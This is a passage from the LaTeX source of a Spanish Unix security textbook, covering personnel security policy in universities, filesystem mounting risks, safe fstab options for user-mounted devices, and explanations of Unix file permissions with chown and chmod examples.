forma que a la larga todos puedan vigilar a todos; esto tambi\'en es muy
\'util en caso de que alguno de los responsables abandone la organizaci\'on, ya
que en este caso sus tareas ser\'an cubiertas m\'as r\'apidamente.
\item {\bf Separaci\'on de funciones}\\
No es en absoluto recomendable que una sola persona (o dos, si establecemos un
control dual) posea o posean demasiada 
informaci\'on sobre la seguridad de la organizaci\'on; es necesario que se 
definan y separen correctamente las funciones de cada persona, de forma que
alguien cuya tarea es velar por la seguridad de un sistema no posea \'el mismo
la capacidad para violar dicha seguridad sin que nadie se percate de ello.
\end{itemize} 
Si aplicamos correctamente los principios anteriores en nuestra pol\'{\i}tica
de personal vamos a evitar muchos problemas de seguridad, no s\'olo cuando
un usuario trabaja para nuestro entorno sino lo que es igual de importante,
cuando abandona la organizaci\'on. Cuando esto sucede se debe cancelar {\bf
inmediatamente} el acceso de esa persona a todos nuestros recursos (cuentas de
usuario, servicio de acceso remoto, unidades de red\ldots), y tambi\'en 
cambiar las claves que ese usuario conoc\'{\i}a. Especialmente en los entornos 
de I+D quiz\'as
esto es algo complicado debido a la gran movilidad de usuarios (un profesor
invitado durante un mes a la universidad, un proyectando que s\'olo necesita
acceso a una m\'aquina mientras que realiza su proyecto\ldots), por lo que es
aqu\'{\i} donde se suelen ver mayores barbaridades en los sistemas: desde 
cuentas que hace a\~nos que no se utilizan hasta direcciones de correo de gente
que dej\'o de trabajar para la organizaci\'on hace a\~nos. Evidentemente, este
tipo de cosas son muy preocupantes para la seguridad, y es justo en estos
accesos no utilizados donde un atacante puede encontrar una de las mejores 
puertas de entrada a los sistemas: simplemente hemos de pensar que si el usuario
de una cuenta hace a\~nos que no la utiliza, por l\'ogica hace a\~nos que esa
clave no se cambia.\\
\\Hasta ahora hemos hablado principalmente de los problemas que nos pueden causar
las personas que trabajan para la organizaci\'on; no obstante, las redes de I+D 
son bastante peculiares a la hora de hablar de ataques internos. Se trata de 
sistemas en los que un elevado n\'umero de usuarios -- los alumnos -- puede
considerar un reto personal o intelectual (?) saltarse las medidas de 
protecci\'on impuestas en la red; adem\'as, y especialmente en universidades
t\'ecnicas, por la naturaleza de sus 
estudios muchos alumnos llegan a poseer elevados conocimientos sobre sistemas
operativos y redes, lo que evidentemente es un riesgo a\~nadido: no es lo mismo
proteger de ataques internos una m\'aquina Unix en una Facultad de Derecho, 
donde {\it a priori} muy pocos alumnos tendr\'an el inter\'es o los 
conocimientos suficientes para saltarse la seguridad del sistema, que en una 
Facultad de Inform\'atica, donde el que m\'as y el que menos tiene nociones de 
seguridad o de Unix y a diario se trabaja en estos entornos.\\
\\Las normas vistas aqu\'{\i} seguramente se pueden aplicar sobre el 
personal de la organizaci\'on, pero no sobre los alumnos (que es justamente
de quienes provienen la mayor\'{\i}a de ataques): no podemos obligar a un
alumno de nuevo ingreso a que nos muestre un resumen de su vida, ni mucho menos
tenemos capacidad para verificar los datos de treinta o cincuenta mil alumnos.
Incluso si pudi\'eramos, >ser\'{\i}a legal o \'etico denegar el acceso a la
universidad a alguien con antecedentes penales, por ejemplo? Seguramente 
no\ldots De esta forma, en organismos de I+D nos debemos ce\~nir a otros
mecanismos de prevenci\'on, por ejemplo en forma de sanciones ejemplares para
todos aquellos que utilicen los recursos del centro para cometer delitos
inform\'aticos; sin llegar a los tribunales, las posibles penas
impuestas dentro de la universidad son a veces m\'as efectivas que una denuncia
en el juzgado, donde los piratas incluso despiertan cierta simpat\'{\i}a entre 
muchos abogados y jueces.

\cleardoublepage
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% Seguridad del sistema
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\part{Seguridad del sistema}

\cleardoublepage
\chapter{El sistema de ficheros}
\begin{center}
\fbox{
\parbox{5.2in}{
{\bf NOTA}: Obviamente, en este cap\'{\i}tulo no hablaremos del tratamiento de
ficheros (creaci\'on, borrado, modificaci\'on, jerarqu\'{\i}a de 
directorios\ldots), sino de temas referentes
a la seguridad de los archivos y el sistema de ficheros. Para informaci\'on 
sobre la gesti\'on de ficheros se puede consultar cualquier obra que estudie
Unix desde una perspectiva general, como \cite{kn:tho82}, \cite{kn:chr94} o 
\cite{kn:man91}. Para un conocimiento m\'as profundo sobre los ficheros y los
sistemas de archivos se puede consultar \cite{kn:tan91}, \cite{kn:bac86} ({\sc
bsd}), \cite{kn:goo94} ({\it System V}) o, en el caso de Linux, \cite{kn:car97}
o \cite{kn:bec96}.  
}}
\end{center}
\section{Introducci\'on}
Dentro del sistema Unix todo son archivos: desde la memoria f\'{\i}sica del 
equipo hasta el rat\'on, pasando por m\'odems, teclado, impresoras o terminales.
Esta filosof\'{\i}a de dise\~no es uno de los factores que m\'as \'exito y
potencia proporciona a Unix (\cite{kn:ker84}), pero tambi\'en uno de los que
m\'as peligros entra\~na: un simple error en un permiso puede permitir a un
usuario modificar todo un disco duro o leer los datos tecleados desde una
terminal. Por esto, una correcta utilizaci\'on de los permisos, atributos y
otros controles sobre los ficheros es vital para la seguridad de un sistema.\\ 
\\En un sistema Unix t\'{\i}pico existen tres tipos b\'asicos de archivos: 
ficheros planos, directorios, y ficheros especiales (dispositivos)
\footnote{Otros tipos de archivos, como los enlaces simb\'olicos, los {\it 
sockets} o los {\it pipes} no los vamos a tratar aqu\'{\i}.}; generalmente,
al hablar de {\it ficheros} nos solemos referir a todos ellos si no se
especifica lo contrario. Los {\bf ficheros 
planos} son secuencias de {\it bytes} que {\it a priori} no poseen ni estructura
interna ni contenido significante para el sistema: su significado depende de 
las aplicaciones que interpretan su contenido. Los {\bf directorios} son 
archivos cuyo contenido son otros ficheros de cualquier tipo (planos, m\'as 
directorios, o ficheros especiales), y los {\bf ficheros especiales} son 
ficheros que representan dispositivos del sistema; este \'ultimo tipo se divide
en dos grupos: los dispositivos orientados a car\'acter y los orientados a 
bloque. La principal diferencia entre ambos es la forma de realizar operaciones
de entrada/salida: mientras que los dispositivos orientados a car\'acter las
realizan {\it byte} a {\it byte} (esto es, car\'acter a car\'acter), los 
orientados a bloque las realizan en bloques de caracteres.\\
\\El {\bf sistema de ficheros} es la parte del n\'ucleo m\'as visible por los 
usuarios; se encarga de abstraer propiedades f\'{\i}sicas de diferentes 
dispositivos para proporcionar una interfaz \'unica de almacenamiento: el
archivo. Cada sistema Unix tiene su sistema de archivos nativo (por ejemplo,
{\it ext2} en Linux, {\sc ufs} en Solaris o {\sc efs} en IRIX), por lo que
para acceder a todos ellos de la misma forma el n\'ucleo de Unix incorpora una 
capa superior denominada VFS ({\it Virtual File System}) encargada de 
proporcionar un acceso uniforme a diferentes tipos de sistema de ficheros.\\
\\Un {\bf inodo} o nodo \'{\i}ndice es una estructura de datos que relaciona un 
grupo 
de bloques de un dispositivo con un determinado nombre del sistema de ficheros.
Internamente, el n\'ucleo de Unix no distingue a sus archivos por su nombre
sino por un n\'umero de inodo; de esta forma, el fichero con n\'umero de inodo
23421 ser\'a el mismo tanto si se denomina {\tt /etc/passwd} como si se 
denomina {\tt /usr/fichero}. Mediante la orden {\tt ln(1)} se pueden asignar a
un mismo inodo varios nombres de fichero diferentes en el sistema de archivos.
\section{Sistemas de ficheros}
Cuando un sistema Unix arranca una de las tareas que obligatoriamente ha de
realizar es incorporar diferentes sistemas de ficheros -- discos completos, una 
partici\'on, una unidad de CD-ROM\ldots -- a la jerarqu\'{\i}a de
directorios Unix; este proceso se llama {\bf montaje}, y para realizarlo 
generalmente se
utiliza la orden {\tt mount}. Es obligatorio montar al menos un sistema de 
ficheros durante el arranque, el sistema ra\'{\i}z ({\tt `/'}), del que 
colgar\'an todos los dem\'as.\\
\\Montar un sistema de ficheros no significa m\'as que asociar un determinado 
nombre de directorio, denominado {\it mount point} o punto de montaje, con el 
sistema en cuesti\'on, de forma que al utilizar 
dicha ruta estaremos trabajando sobre el sistema de ficheros que hemos asociado 
a ella. Para saber qu\'e sistemas
de ficheros se han de montar en el arranque de la m\'aquina, y bajo qu\'e
nombre de directorio, Unix utiliza un determinado archivo; aunque su nombre 
depende del clon utilizado ({\tt /etc/vfstab} en Solaris, {\tt /etc/fstab} en 
Linux\ldots), su funci\'on -- e incluso su sintaxis -- es siempre equivalente. 
Un ejemplo de este fichero es el siguiente:
\begin{quote}
\begin{verbatim}
luisa:~# cat /etc/fstab
/dev/hda3       /        ext2        defaults   1   1
/dev/hda4       /home    ext2        defaults   1   2
none            /proc    proc        defaults   1   1
luisa:~#
\end{verbatim}
\end{quote}
Cuando el sistema arranque, el fichero anterior viene a indicar que en 
{\tt /dev/hda3} se encuentra el sistema de ficheros ra\'{\i}z, de tipo {\it
ext2} (el habitual en Linux), y que se ha de montar con las opciones que se
toman por defecto. La segunda l\'{\i}nea nos dice que {\tt /home} es un
sistema diferente del anterior, pero del mismo tipo y que se montar\'a
con las mismas opciones; finalmente, la \'ultima entrada hace referencia al
directorio {\tt /proc/}, donde se encuentra un sistema de ficheros especial
que algunos Unices utilizan como interfaz entre estructuras de datos del 
n\'ucleo y el espacio de usuario (no entraremos en detalles con \'el). Si 
cualquiera de las entradas anteriores fuera err\'onea, el sistema o bien no
arrancar\'{\i}a o bien lo har\'{\i}a incorrectamente. Por lo que evidentemente
el fichero {\tt /etc/fstab} o sus equivalentes ha de ser s\'olo modificable por 
el {\tt root}, aunque nos puede interesar -- como veremos luego -- que los 
usuarios sin privilegios puedan leerlo.\\
\\Lo visto hasta aqu\'{\i} no suele representar ning\'un problema de seguridad
en Unix; si hemos dicho que no hablar\'{\i}amos de aspectos generales de los
sistemas de ficheros, >por qu\'e comentamos este aspecto? Muy sencillo: 
diferentes problemas radican en una gesti\'on incorrecta del montaje de sistemas
de ficheros. Por ejemplo, algo muy habitual en un atacante que consigue 
privilegios de administrador en una m\'aquina es instalar ciertas utilidades que
le permitan seguir gozando de ese privilegio (por ejemplo, un {\it rootkit} o
un simple {\it shell} {\it setuidado}); si guarda el fichero {\it setuidado} -- 
hablaremos m\'as tarde de estos permisos `especiales' -- en cualquier 
directorio de nuestro sistema, su localizaci\'on ser\'a muy r\'apida: una orden 
tan simple como {\tt find} nos alertar\'a de su presencia. En cambio, >qu\'e 
sucede si el atacante utiliza una parte del sistema de ficheros {\it oculta}?
Cuando montamos un sistema bajo un nombre de directorio, todo lo que hab\'{\i}a
en ese directorio desaparece de la vista, y es sustituido por el contenido del
sistema montado; no volver\'a a estar accesible hasta que no desmontemos el
sistema:
\begin{quote}
\begin{verbatim}
luisa:~# mount
/dev/hda3 on / type ext2 (rw)
/dev/hda4 on /home type ext2 (rw)
none on /proc type proc (rw)
luisa:~# ls /home/
ftp/   toni/    lost+found/ 
luisa:~# umount /home
luisa:~# ls /home/
luisa:~#
\end{verbatim}
\end{quote}
El atacante puede desmontar una parte de nuestra jerarqu\'{\i}a de directorios,
guardar ah\'{\i} ciertos ficheros, y volver a montar el sistema que hab\'{\i}a
anteriormente; localizar esos archivos puede ser complicado, no por motivos 
t\'ecnicos sino porque a muy poca gente se le ocurre hacerlo. La orden 
{\tt ncheck}, existente en Unices antiguos, puede detectar estos ficheros
ocultos bajo un {\it mount point}; si no disponemos de esta utilidad podemos
buscar por Internet aplicaciones que consiguen lo mismo, o simplemente desmontar
manualmente los sistemas (a excepci\'on del ra\'{\i}z) y comprobar que no hay 
nada oculto bajo ellos.\\
\\El tema de desmontar sistemas de ficheros tambi\'en puede ocasionar alg\'un
dolor de cabeza a muchos administradores; aunque no se trata de algo 
estrictamente relativo a la seguridad, vamos a comentar un problema t\'{\i}pico
que se podr\'{\i}a considerar incluso una negaci\'on de servicio (no causada
por un fallo de Unix sino por el desconocimiento del administrador). En 
ocasiones, al intentar desmontar un sistema de ficheros, encontramos el
siguiente resultado:
\begin{quote}
\begin{verbatim}
luisa:~# umount /home/
umount: /home: device is busy
luisa:~#
\end{verbatim}
\end{quote}
>Qu\'e sucede? Simplemente que existe un determinado proceso haciendo uso de 
recursos bajo ese nombre de directorio. Hasta que dicho proceso no finalice
(por las buenas o por las malas), ser\'a imposible desmontar el sistema; es
f\'acil determinar de qu\'e proceso se trata -- y posteriormente eliminarlo --
mediante la orden {\tt fuser}.\\
\\Otro problema cl\'asico de los sistemas de ficheros viene de la necesidad que
en muchos entornos existe de permitir a los usuarios -- sin privilegios -- 
montar y desmontar sistemas de ficheros (t\'{\i}picamente, discos flexibles o
CD-ROMs). Por ejemplo, imaginemos un laboratorio de m\'aquinas Unix donde es
deseable que todos los usuarios puedan acceder a la disquetera, tanto para
copiar pr\'acticas realizadas en casa como para hacer una copia de las que se
han hecho en el propio laboratorio (este es uno de los casos m\'as frecuentes en
cualquier organizaci\'on). Unix permite dar una soluci\'on 
r\'apida a este problema, pero esta soluci\'on puede convertirse en una amenaza
a la seguridad si no es implantada correctamente:\\
\\Al hablar de {\tt /etc/fstab} hemos comentado el montaje con ciertas opciones
tomadas por defecto; dichas opciones son -- en el caso de Linux, consultar la
p\'agina del manual de {\tt mount} en otros sistemas -- {\tt `rw'} (se permite
tanto la lectura como la escritura), {\tt `suid'} (se permite la existencia de
ficheros {\it setuidados}), {\tt `dev'} (se permite la existencia de 
dispositivos), {\tt `exec'} (se permite la ejecuci\'on de binarios), {\tt 
`auto'} (el sistema se monta autom\'aticamente al arrancar o al utilizar {\tt
mount -a}), {\tt `nouser'} 
(s\'olo puede ser montado por el {\tt root}) y {\tt `async'} (la entrada/salida
sobre el dispositivo se realiza de forma as\'{\i}ncrona). Evidentemente, se
trata de las opciones m\'as l\'ogicas para sistemas de ficheros `normales',
pero no para los que puedan montar los usuarios; si deseamos que un usuario sin
privilegios pueda montar y desmontar cierto dispositivo, hemos de especificar
la opci\'on {\tt `user'} en la entrada correspondiente de {\tt /etc/fstab}.
Parece l\'ogico tambi\'en utilizar {\tt `noauto'} para que el sistema no se
monte autom\'aticamente en el arranque de la m\'aquina (si esto sucediera, 
el {\tt root} tendr\'{\i}a que desmontar la unidad manualmente para que otros
usuarios puedan montarla), pero otras opciones importantes no son tan 
inmediatas. Es {\bf imprescindible} que si permitimos a un usuario montar 
una unidad utilicemos {\tt `nodev'}, de forma que si en el sistema montado
existen ficheros de tipo dispositivo (por ejemplo, un archivo que haga 
referencia a nuestros discos duros) ese fichero sea ignorado; en caso contrario,
cualquiera podr\'{\i}a acceder directamente a nuestro {\it hardware}, por 
ejemplo para destruir completamente los discos duros o bloquear toda la 
m\'aquina. Tambi\'en es importante especificar {\tt `nosuid'}, de forma que
se ignore el bit de {\it setuid} en cualquier fichero contenido en el sistema
que el usuario monta: as\'{\i} evitamos que con un simple {\it shell} setuidado
en un disco flexible el usuario consiga privilegios de administrador en nuestro
sistema. Incluso puede ser conveniente especificar {\tt `noexec'}, de forma
que no se pueda ejecutar nada de lo que est\'a en el dispositivo montado -- 
esto parece l\'ogico, ya que en principio se va a tratar de una unidad utilizada
simplemente para transferir datos entre la m\'aquina y un sistema externo a la
red, como el ordenador de casa de un alumno --. Todas estas opciones ({\tt
`noexec'}, {\tt `nosuid'} y {\tt `nodev'}) en Linux se asumen simplemente al
indicar {\tt `user'}, pero en otros sistemas Unix quiz\'as no, por lo que
nunca est\'a de m\'as ponerlas expl\'{\i}citamente (o al menos consultar el
manual en otros clones de Unix para asegurarse del efecto de cada opci\'on);
de esta forma, si queremos que los usuarios puedan montar por ejemplo la
disquetera, una entrada correcta en {\tt /etc/fstab} ser\'{\i}a la siguiente:
\begin{quote}
\begin{verbatim}
luisa:~# grep fd0 /etc/fstab
/dev/fd0    /floppy     ext2        user,noauto,nodev,nosuid,noexec
luisa:~#
\end{verbatim}
\end{quote}
Otro aspecto relacionado con el montaje de sistemas de ficheros que puede 
afectar a nuestra seguridad es el uso de sistemas de ficheros diferentes del
ra\'{\i}z bajo ciertos directorios; una elecci\'on incorrecta a la hora de 
elegir d\'onde montar sistemas puede causar ciertos problemas, sobre todo 
negaciones de servicio. Generalmente, es recomendable montar dispositivos 
diferentes bajo todos y cada uno de los directorios sobre los que los usuarios
tienen permiso de escritura; esto incluye el padre de sus {\it \$HOME}, {\tt
/tmp/} o {\tt /var/tmp/} (que puede ser un simple enlace a {\tt /tmp/}). Con
esto conseguimos que si un usuario llena un disco, esto no afecte al resto
del sistema: un disco lleno implica muchos problemas para la m\'aquina, desde
correo electr\'onico que no se recibe, {\it logs} que no se registran, o 
simplemente una negaci\'on de servicio contra el resto de usuarios, que no 
podr\'an almacenar nada. Aunque algunos Unices reservan una parte de cada disco
o partici\'on para escritura s\'olo del {\tt root} o de procesos que corran bajo
el UID 0 -- t\'{\i}picamente un 10\% de su capacidad total --, no podemos
confiar ciegamente en este mecanismo para mantener segura nuestra m\'aquina;
as\'{\i}, una configuraci\'on m\'as o menos adecuada ser\'{\i}a la 
siguiente\footnote{Recordemos que en ciertos Unices existe {\tt /var/tmp/}, 
directorio donde los usuarios tambi\'en pueden escribir; quiz\'as nos interese,
en lugar de dedicar una partici\'on a este directorio, enlazarlo 
simb\'olicamente a {\tt /tmp/}.}:
\begin{quote}
\begin{verbatim}
rosita:~# mount
/dev/hda1 on / type ext2 (rw)
/dev/hda2 on /tmp type ext2 (rw)
/dev/hdb1 on /home type ext2 (rw)
none on /proc type proc (rw)
rosita:~#
\end{verbatim}
\end{quote}
Como podemos comprobar, si un usuario lanza un {\tt ftp} en {\it background}
desde su {\it \$HOME}
durante la noche -- t\'{\i}pico proceso que llena gran cantidad de disco --, en
todo caso podr\'a afectar al resto de usuarios, pero nunca al sistema en global
(correo, {\it logs}, {\tt root}\ldots); este tipo de problemas no suelen ser
ataques, sino m\'as bien descuidos de los usuarios que no tienen en cuenta 
el espacio disponible antes de descargar ficheros de forma no interactiva. Si
queremos que ni siquiera pueda afectar al resto de usuarios, podemos establecer
un sistema de {\it quotas} de disco en nuestra m\'aquina.
\section{Permisos de un archivo}
Los permisos de cada fichero son la protecci\'on m\'as b\'asica de estos
objetos del sistema operativo; definen qui\'en puede acceder a cada uno de 
ellos, y de qu\'e forma puede hacerlo. Cuando hacemos un listado largo de 
ciertos archivos podemos ver sus permisos junto al tipo de fichero 
correspondiente, en la primera columna de cada l\'{\i}nea:
\tt
\begin{quote}
\begin{verbatim}
anita:~# ls -l /sbin/rc0
-rwxr--r--   3 root     sys         2689 Dec  1  1998 /sbin/rc0
anita:~#
\end{verbatim}
\end{quote}
\rm
En este caso vemos que el archivo listado es un fichero plano (el primer
car\'acter es un {\tt `-'}) y sus permisos son {\tt `rwxr--r--'}. >C\'omo
interpretar estos caracteres? Los permisos se dividen en tres ternas en
funci\'on de a qu\'e usuarios afectan; cada una de ellas indica la existencia o
la ausencia de permiso para leer, escribir o ejecutar el fichero: una {\tt r}
indica un permiso de lectura, una {\tt w} de escritura, una {\tt x} de 
ejecuci\'on y un {\tt `-'} indica que el permiso correspondiente no est\'a
activado. As\'{\i}, si en una de las ternas tenemos los caracteres {\tt rwx},
el usuario o usuarios afectados por esa terna tiene o tienen permisos para 
realizar cualquier operaci\'on sobre el fichero. >De qu\'e usuarios se trata en
cada caso? La primera terna afecta al propietario del fichero, la segunda al
grupo del propietario cuando lo cre\'o (recordemos un mismo usuario puede 
pertenecer a varios grupos) y la tercera al resto de usuarios. De esta forma,
volviendo al ejemplo anterior, tenemos los permisos mostrados en la figura
\ref{perm}.\\
\begin{figure}
\vspace{0.5cm}
\setlength{\unitlength}{0.00083300in}%
%
\begingroup\makeatletter\ifx\SetFigFont\undefined%
\gdef\SetFigFont#1#2#3#4#5{%
  \reset@font\fontsize{#1}{#2pt}%
  \fontfamily{#3}\fontseries{#4}\fontshape{#5}%
  \selectfont}%
\fi\endgroup%
\begin{picture}(4524,1614)(589,-1363)
\thicklines
\put(601,-286){\framebox(1200,525){}}
\put(2101,-286){\framebox(1200,525){}}
\put(3601,-286){\framebox(1200,525){}}
\put(4201,-286){\line( 0,-1){375}}
\put(4201,-661){\vector( 1, 0){900}}
\put(2701,-286){\line( 0,-1){675}}
\put(2701,-961){\vector( 1, 0){1725}}
\put(1201,-286){\line( 0,-1){975}}
\put(1201,-1261){\vector( 1, 0){1725}}
\put(751,-136){\makebox(0,0)[lb]{\smash{\SetFigFont{17}{20.4}{\ttdefault}{\mddefault}{\updefault}r w x}}}
\put(2251,-136){\makebox(0,0)[lb]{\smash{\SetFigFont{17}{20.4}{\ttdefault}{\mddefault}{\updefault}r - -}}}
\put(3751,-136){\makebox(0,0)[lb]{\smash{\SetFigFont{17}{20.4}{\ttdefault}{\mddefault}{\updefault}r - -}}}
\put(4501,-1036){\makebox(0,0)[lb]{\smash{\SetFigFont{10}{12.0}{\ttdefault}{\mddefault}{\updefault}Miembros del grupo (sys): lectura.}}}
\put(3001,-1336){\makebox(0,0)[lb]{\smash{\SetFigFont{10}{12.0}{\ttdefault}{\mddefault}{\updefault}Propietario (root): lectura, escritura y ejecuci\'on.}}}
\put(5026,-736){\makebox(0,0)[lb]{\smash{\SetFigFont{10}{12.0}{\ttdefault}{\mddefault}{\updefault} Resto de usuarios: lectura.}}}
\end{picture}
\vspace{0.4cm}
\caption{Permisos de un fichero}
\label{perm}
\end{figure}
\\Cuando un usuario\footnote{Excepto el {\it root}, que no se ve afectado por
los permisos de un fichero.} intenta acceder en alg\'un modo a un archivo, el 
sistema comprueba qu\'e terna de permisos es la aplicable y se basa 
\'unicamente en ella para conceder o denegar el acceso; as\'{\i}, si un usuario
es el propietario del fichero s\'olo se comprueban permisos de la primera terna;
si no, se pasa a la segunda y se aplica en caso de que los grupos coincidan, y
de no ser as\'{\i} se aplican los permisos de la \'ultima terna. De esta forma
es posible tener situaciones tan curiosas como la de un usuario que no tenga
ning\'un permiso sobre uno de sus archivos, y en cambio que el resto de usuarios
del sistema pueda leerlo, ejecutarlo o incluso borrarlo; obviamente, esto no
es lo habitual, y de suceder el propietario siempre podr\'a restaurar los 
permisos a un valor adecuado.\\
\\El propietario y el grupo de un fichero se pueden modificar con las \'ordenes
{\tt chown} y {\tt chgrp} respectivamente; ambas reciben como par\'ametros al
menos el nombre de usuario o grupo (los nombres v\'alidos de usuario
son los que poseen una entrada en {\tt /etc/passwd} mientras que los grupos
v\'alidos se leen de {\tt /etc/group}) al que vamos a otorgar la posesi\'on
del fichero, as\'{\i} como el nombre de archivo a modificar:
\begin{quote}
\begin{verbatim}
anita:~# ls -l /tmp/fichero 
-rw-r--r--   1 root     other          799 Feb  8 19:47 /tmp/fichero
anita:~# chown toni /tmp/fichero
anita:~# ls -l /tmp/fichero 
-rw-r--r--   1 toni     other          799 Feb  8 19:47 /tmp/fichero
anita:~# chgrp staff /tmp/fichero
anita:~# ls -l /tmp/fichero 
-rw-r--r--   1 toni     staff          799 Feb  8 19:47 /tmp/fichero
anita:~# 
\end{verbatim}
\end{quote}
En muchas variantes de Unix es posible cambiar a la vez el propietario y el
grupo de un fichero mediante {\tt chown}, separando ambos mediante un car\'acter
especial, generalmente {\tt `:'} o {\tt `.'}:
\begin{quote}
\begin{verbatim}
anita:~# ls -l /tmp/fichero 
-rw-r--r--   1 root     other          799 Feb  8 19:47 /tmp/fichero
anita:~# chown toni:staff /tmp/fichero
anita:~# ls -l /tmp/fichero 
-rw-r--r--   1 toni     staff          799 Feb  8 19:47 /tmp/fichero
anita:~#
\end{verbatim}
\end{quote}
Como vemos, ninguna de estas \'ordenes altera el campo de permisos\footnote{Esto
no siempre es as\'{\i}: bajo ciertas circunstancias en algunos Unix el cambio
de grupo o de propietario puede modificar los permisos del archivo, como veremos
al hablar de  ficheros setuidados.}; para modificar los permisos de un archivo
se utiliza la orden {\tt chmod}. Este comando generalmente recibe como 
par\'ametro el permiso en octal que queremos asignar a cierto fichero, as\'{\i}
como el nombre del mismo:
\begin{quote}
\begin{verbatim}
anita:~# ls -l /tmp/fichero 
-rw-r--r--   1 root     staff          799 Feb  8 19:47 /tmp/fichero
anita:~# chmod 755 /tmp/fichero
anita:~# ls -l /tmp/fichero 
-rwxr-xr-x   1 root     staff          799 Feb  8 19:47 /tmp/fichero
anita:~# 
\end{verbatim}
\end{quote}
>C\'omo podemos obtener el n\'umero en octal a partir de una terna de permisos
determinada, y viceversa? Evidentemente no podemos entrar aqu\'{\i} a tratar
todas las caracter\'{\i}sticas de este sistema de numeraci\'on, pero vamos a
proporcionar unas ideas b\'asicas. Imaginemos que tenemos un fichero con unos
determinados permisos de los que queremos calcular su equivalente octal, o que
conocemos los permisos a asignar pero no su equivalente num\'erico; por 
ejemplo, necesitamos asignar a un fichero la terna {\tt rw-r---wx}, que en la
pr\'actica no tiene mucho sentido pero que a nosotros nos sirve de ejemplo.
Lo primero que debemos hacer a partir de estos bits {\it rwx} es calcular su
equivalente binario, para lo que asignamos el valor {\tt `1'} si un determinado
permiso est\'a activo (es decir, si aparece una {\tt r}, {\tt w} o {\tt x} en
\'el) y un {\tt `0'} si no lo est\'a (aparece un {\tt `-'}); as\'{\i}, el 
equivalente binario de la terna propuesta es {\tt 110100011}. Ahora simplemente
hemos de pasar el n\'umero del sistema binario al octal: lo dividimos en 
grupos de tres elementos ({\tt 110 100 011}) y de cada uno de ellos calculamos
su equivalente octal:
\begin{quote}
$110_{2}\equiv 1\cdot 2^{2} + 1\cdot 2^{1} + 0\cdot 2^{0} \equiv 6_{8}$\\
$100_{2}\equiv 1\cdot 2^{2} + 0\cdot 2^{1} + 0\cdot 2^{0} \equiv 4_{8}$\\
$011_{2}\equiv 0\cdot 2^{2} + 1\cdot 2^{1} + 1\cdot 2^{0} \equiv 3_{8}$
\end{quote}
Ya tenemos los tres n\'umeros de nuestra terna de permisos, o lo que es lo
mismo, la representaci\'on octal de los bits iniciales: 643. Por tanto, si
necesitamos asignar esta terna a un cierto fichero, simplemente hemos de 
ejecutar la orden {\tt chmod} indic\'andole este n\'umero y el nombre del
archivo:
\begin{quote}
\begin{verbatim}
anita:~# chmod 643 /tmp/fichero
anita:~# ls -l /tmp/fichero 
-rw-r---wx   1 root     root          799 Feb  8 19:47 /tmp/fichero*
anita:~#
\end{verbatim}
\end{quote}
La forma de trabajar de {\tt chmod} comentada requiere que se indique 
expl\'{\i}citamente el valor octal de los bits {\it rwx} que queremos otorgar
a un fichero; sin importar el valor de las ternas que pose\'{\i}a antes de
ejecutar la orden, estamos asignando a los permisos del archivo el nuevo valor 
valor indicado en la l\'{\i}nea de comandos. Existe otra forma de trabajo de
{\tt chmod} denominada `simb\'olica' en la que no necesitamos indicar el valor
octal de todos los bits, sino que especificamos \'unicamente par\'ametros 
para los valores de los permisos que el archivo posee y deseamos modificar. En
lugar de utilizar el equivalente octal, utilizamos s\'{\i}mbolos (de ah\'{\i}
el nombre de esta forma de trabajo) que representan la activaci\'on o 
desactivaci\'on de ciertos bits en cada una de las tres ternas; la sintaxis
b\'asica\footnote{Se recomienda consultar la p\'agina del manual para ver otras
opciones de la orden.} de {\tt chmod} en este caso es la siguiente:
\it
\begin{center}
chmod $[$ugoa$]$\{+,-\}\{rwxst\} fichero 
\end{center}
\rm
Podemos ver que el valor simb\'olico comienza por cero o m\'as letras que 
indican sobre que terna de los permisos se van a realizar los cambios ({\tt u} 
para propietario del fichero, {\tt g} para grupo, {\tt o} para resto de 
usuarios y {\tt a} para las tres ternas; si no se especifica ninguna letra, se
asume {\tt a}). A ellas les sigue un signo {\tt `+'} o {\tt `-'} en funci\'on
de si deseamos activar o resetar el bit sobre el que trabajamos, par\'ametro
indicado por el \'ultimo conjunto formado por una o m\'as letras, {\tt r} para
el permiso de lectura, {\tt w} para escritura, {\tt x} para ejecuci\'on, {\tt s}
para {\sc suid} o {\sc sgid} y {\tt t} para bit de permanencia (el significado
de estos dos \'ultimos se explicar\'a en el punto siguiente). Entre los tres
campos del valor simb\'olico no se insertan espacios:
\begin{quote}
\begin{verbatim}
anita:~# ls -l /tmp/fichero
-r--------   1 root     other          902 Feb  9 05:05 /tmp/fichero
anita:~# chmod +x /tmp/fichero
anita:~# ls -l /tmp/fichero
-r-x--x--x   1 root     other          902 Feb  9 05:05 /tmp/fichero
anita:~# chmod og-x /tmp/fichero
anita:~# ls -l /tmp/fichero
-r-x------   1 root     other          902 Feb  9 05:05 /tmp/fichero
anita:~# chmod ug+rwx /tmp/fichero
anita:~# ls -l /tmp/fichero
-rwxrwx---   1 root     other          902 Feb  9 05:05 /tmp/fichero
anita:~# 
\end{verbatim}
\end{quote}
Esta forma de trabajo simb\'olica es menos utilizada en la pr\'actica que la
forma octal, pero en ciertas situaciones es muy \'util, por ejemplo si deseamos
activar todos los permisos de ejecuci\'on de un archivo o si queremos {\it 
setuidarlo}: un simple {\tt chmod +x} o {\tt chmod u+s} es suficiente en estos
casos, y evitamos preocuparnos por si modificamos el resto de permisos.\\
\\Quiz\'as despu\'es de ver el procedimiento de modificaci\'on de los permisos
de un fichero, este puede parecer demasiado
complicado y arcaico para un sistema operativo moderno; a fin de
cuentas, mucha gente prefiere gestores gr\'aficos de permisos -- igual que
prefiere gestores gr\'aficos para otras tareas de administraci\'on --, programas
que dan todo hecho y no obligan al administrador a `complicarse', llenos de
men\'us desplegables y di\'alogos que una y otra vez preguntan si realmente 
deseamos modificar cierto permiso ({\it >Est\'a usted seguro? >Realmente 
seguro? >Es mayor de edad? >Me lo jura?}). Incluso esas personas aseguran que
el procedimiento gr\'afico es mucho m\'as claro y m\'as potente que el que
Unix ofrece en modo texto. Nada m\'as lejos de la realidad; por un lado,
aunque todo el mundo reconoce que la explicaci\'on detallada de c\'omo funcionan
los permisos de ficheros es algo farragosa, en la pr\'actica el convertir una
terna de bits {\it rwx} a octal o viceversa es una tarea trivial, algo que 
ning\'un 
administrador con unas cuantas horas de pr\'actica ni siquiera necesita pensar. 
Por otro, algo m\'as importante que la facilidad o dificultad de
